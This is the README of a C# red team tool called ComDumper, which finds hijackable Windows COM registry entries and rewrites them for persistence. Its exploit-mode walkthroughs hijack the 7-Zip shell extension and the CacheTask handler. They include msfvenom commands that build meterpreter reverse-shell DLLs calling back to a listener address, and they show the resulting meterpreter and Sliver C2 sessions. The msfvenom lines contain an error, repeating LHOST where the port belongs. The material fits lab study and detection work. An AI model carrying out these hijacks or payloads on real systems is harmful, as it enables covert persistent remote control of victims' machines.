# ComDumper

A Simple C# red team tool to enumerate and analyze COM registry objects for hijackable entries, missing binary paths, access control misconfigurations, and simulate persistence via registry modification.
For more details about COM exploitation demos, take a look at my blog 
## Compiling code using VS csc compiler

```powershell
csc /r:System.DirectoryServices.AccountManagement.dll ComDumperV.cs /out:ComDumper.exe
```
## Usage

![image](https://github.com/user-attachments/assets/f9120ac3-23bd-4ce0-a9d7-bb893ca6f537)

## Features

### Search and Dump CLSIDs

- `-sA`: Scan and dump all COM CLSIDs from the registry.
- Supports limiting the number of results with `-n <number>`.
- Output can be saved as a CSV file (`-o <file>`) or printed verbosely with `--verbose`.
  ```powershell
  .\ComDumper.exe -sA --verbose -n 2
  ```
![image](https://github.com/user-attachments/assets/1179ab96-24a0-4b42-86b7-e0809c8969fa)

dumping all COM CLSIDs to a CSV file
```powershell
.\ComDumper.exe -sA -o comCLSIDs.csv
```
![image](https://github.com/user-attachments/assets/de0ffc1f-512e-4498-99cf-aa074a004a40)

### Filtering Options for Search Results

- `-fg <group>`: Filter entries by registry group.
- `-fu <user>`: Filter entries writable by a specific user (e.g., `BUILTIN\Users`).
- `-fa <access>`: Filter entries based on access control.
- `-fo <owner>`: Filter entries by registry key owner.
- `--filter-access <string>`: Filter entries by partial access control string.
- `--missing` / `-m`: Filter entries where the COM server file (DLL or EXE) is missing from disk.
- `--vulnerable`: Filter entries considered vulnerable (missing or hijackable).
- `--hijackable`: Filter entries that are hijackable.
- `--unresolvedsid`: Filter entries with unresolved SIDs (e.g., `S-1-5-*`).
- 
Some filters, like missing, are better used when you have admin access while looking for persistence entries. Otherwise, they can sometimes falsely report files as missing simply because the program doesn’t have permission to read privileged locations like C:\Windows\System32\.

hunting for FullControl Access over a COM object we can use filters
```powershell
 .\ComDumper.exe -sA --verbose  -fa "FullControl" -fu "ippyokai"
```
Note that the user filter `-fu` also checks the group memberships of the user. Since my `ippyokai` user is a local admin, it will have a lot of FullControl access rights.
We can search for the explicit Write access for a user as follows or using regx.
```powershell
 .\ComDumper.exe -sA --verbose  -fa "COMMANDO\ippyokai (FullControl)"
```
![image](https://github.com/user-attachments/assets/92f120a3-3c63-485e-9c99-43f285713476)

### Individual CLSID Search

- `-s --clsid <CLSID>`: Query detailed information about a specific CLSID.
 From the previous example, we can take the 7-Zip shell extension CLSID `{23170F69-40C1-278A-1000-000100020000}` to get more info.
![image](https://github.com/user-attachments/assets/f4c5d3d0-6d4e-4e4f-aa29-d5e7b665d41f)

### Exploit Mode

- `-e --clsid <CLSID> --dll <path>`: Replace the COM DLL path in the registry for the specified CLSID.
- `-e --clsid <CLSID> --exe <path>`: Replace the COM EXE path in the registry for the specified CLSID.
- `--hkcu`: Apply the hijack under the current user registry hive (HKCU) instead of the local machine hive (HKLM).
For exploit mode, it’s simple: without --hkcu, the tool changes the registry entry to the given DLL or EXE. With the --hkcu option, it performs a hijack by adding a registry entry under HKCU to override the DLL from HKLM. Be careful to create a proper DLL that proxies calls to the original one to maintain system functionality. You can use FaceDancer, as I demonstrated in my blog.

We can create a simple proof of concept here since we have FullControl over the 7-Zip shell extension COM registry.
generate first a simple dll with  `msfvenome`
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.136.138 LHOST=4444 -f dll -o shell.dll
```
Adding the dll. `ComDumper` backup it automaticaly so you can recover it later.
![image](https://github.com/user-attachments/assets/1c6b6196-004f-47da-a8f8-510de25985b7)

By navigating to a folder containing ZIP files, we can observe that `explorer.exe` loads `shell.dll`.
![image](https://github.com/user-attachments/assets/0bf130b5-aa07-48df-bebe-cfe1cedfcedc)

we have got meterpreter session.
![image](https://github.com/user-attachments/assets/737e31ff-e43d-44d2-9382-9279409a733d)

now we can recover it back.
![image](https://github.com/user-attachments/assets/43240580-fb13-46f9-8f2e-13a241b948fc)

For `--hkcu` mode, we can enumerate COM objects used by scheduled tasks using the [Get-ScheduledTaskComHandler.ps1]()https://github.com/enigma0x3/Misc-PowerShell-Stuff/blob/master/Get-ScheduledTaskComHandler.ps1 script, created by Matt Nelson and Matthew Graeber. I will might add a C# class to enumerate scheduled tasks later.

```powershell
. .\Get-ScheduledTaskComHandler
Get-ScheduledTaskComHandler -PersistenceLocations
```
We can take an example for this mode using `CacheTask`.
![image](https://github.com/user-attachments/assets/802b8c81-ed06-4cef-9ad7-f450a07c94f9)

We can verify that the entry comes from HKLM.
![image](https://github.com/user-attachments/assets/c6d32948-1398-4348-9d24-fa32e4a3a17c)

Generate a DLL as in the previous step.
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.136.138 LHOST=8443 -f dll -o Rabbit.dll
```

Now I'm going to use this DLL as a staged payload for Sliver C2. check too with out `--hkcu` we have got access denied cause can't write to HKLM directly.
![image](https://github.com/user-attachments/assets/7ce118a8-56c5-495c-a672-3317d4c0f9b5)

Re-login with any user, and the beacon call will be triggered.
![image](https://github.com/user-attachments/assets/27b44d28-1f1e-4dd2-adee-e1446dafc6fe)

Clean up again just remove the entry.
```powershell
$clsid = '{0358B920-0AC7-461F-98F4-58E32CD89148}'
$path = "HKCU:\Software\Classes\CLSID\$clsid"

if (Test-Path $path) {
    Remove-Item -Path $path -Recurse -Force
    Write-Host "[+] COM hijack removed from HKCU for CLSID $clsid"
} else {
    Write-Host "[-] No COM hijack found under HKCU for CLSID $clsid"
}
```

---

## 📚 References & Acknowledgements

I would like to acknowledge and thank the authors and contributors of the following outstanding resources and blogs that greatly enhanced my understanding of COM abuse techniques and persistence mechanisms:

- **Fakroud, Mohamed** – Playing Around COM Objects - Part 1, Red Teaming Dojo  
  https://mohamed-fakroud.gitbook.io/red-teamings-dojo/windows-internals/playing-around-com-objects-part-1

- **DerbyCon 2019** – COM Hijacking Techniques, Slideshare presentation  
  https://www.slideshare.net/slideshow/com-hijacking-techniques-derbycon-2019/169871173

- **SpecterOps Team** – Revisiting COM Hijacking, SpecterOps Blog (May 28, 2025)  
  https://specterops.io/blog/2025/05/28/revisiting-com-hijacking/

- **PentestLab Team** – Persistence: COM Hijacking, PentestLab Blog (May 20, 2020)  
  https://pentestlab.blog/2020/05/20/persistence-com-hijacking/

These resources provided valuable insights, technical deep-dives, and practical examples that were instrumental in shaping the development of this tool and the learning journey behind it.


